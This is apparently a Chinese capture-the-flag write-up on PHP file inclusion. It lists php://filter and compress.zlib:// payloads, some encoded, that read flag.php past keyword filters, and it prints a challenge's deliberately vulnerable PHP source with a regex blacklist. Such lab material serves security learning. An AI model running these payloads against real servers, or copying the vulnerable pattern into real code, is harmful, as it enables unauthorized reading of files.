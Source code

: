 看到过滤了，data，input，想到了php伪协议filter

payload

```
?file=php://filter/resource=flag.php,直接读取文件
也可以使用编码来读取文件payload:file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
file=compress.zlib://flag.php
payload:file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php

```

## 23. php伪协议--filter

filter编码绕过死亡die

https://www.freebuf.com/articles/web/266565.html

###  web114

payload

```php
php://filter/resource=flag.php,这个就可以不用使用过滤器了。
```

##  24.linux的/proc/self学习

https://blog.csdn.net/unexpectedthing/article/details/121338877

##  25./proc/self/root绕过

###  web113

```php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

非预期解：file=compress.zlib://flag.php
